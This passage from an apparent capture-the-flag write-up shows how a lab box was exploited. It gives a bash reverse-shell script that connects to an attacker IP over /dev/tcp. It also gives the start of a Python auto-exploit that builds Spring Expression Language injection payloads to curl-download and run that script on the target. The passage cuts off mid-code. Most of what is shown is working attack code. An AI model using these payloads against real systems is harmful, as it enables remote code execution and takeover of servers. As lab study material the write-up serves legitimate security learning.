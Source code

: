 The `rev.sh` :
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.10/1234 0>&1"
```

Copy the output of step 1 and step 2 to use with `Burp Repeater`. 
![step1_burp_repeater.png](img/step1_burp_repeater.png)
![step2_burp_repeater.png](img/step2_burp_repeater.png)

We got the revershell. Well.
Lets try to automate full process with `auto_exploit.py`
```python
#!/usr/bin/python3  
import requests  
IP = '10.10.11.170'  
PORT = '8080'  
command = ['whoami','curl -o /tmp/rev.sh http://10.10.14.10:8088/rev.sh', 'bash /tmp/rev.sh']  
def convert_to_char(c):  
    payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('  
    payload2 = ''  
    payload = payload + "T(java.lang.Character).toString(%s)" % ord(c[0])  
    for i in range(1, len(c)):  
        payload2 = ".concat(T(java.lang.Character).toString(%s))" % ord(c[i])  
        payload = payload + payload2  
```
